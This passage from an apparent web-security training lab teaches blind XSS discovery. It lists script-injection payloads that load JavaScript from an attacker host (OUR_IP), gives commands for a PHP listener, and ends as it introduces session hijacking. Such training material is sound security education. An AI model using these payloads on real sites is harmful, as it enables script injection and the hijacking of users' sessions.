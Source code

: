 ```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend. As previously mentioned in the `XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection. This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.

Before we start sending payloads, we need to start a listener on our VM, using `netcat` or `php` as shown in a previous section:

```shell
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:

```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

>[!Tip]
>We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.

`Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload`.

### Session Hijacking

Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.
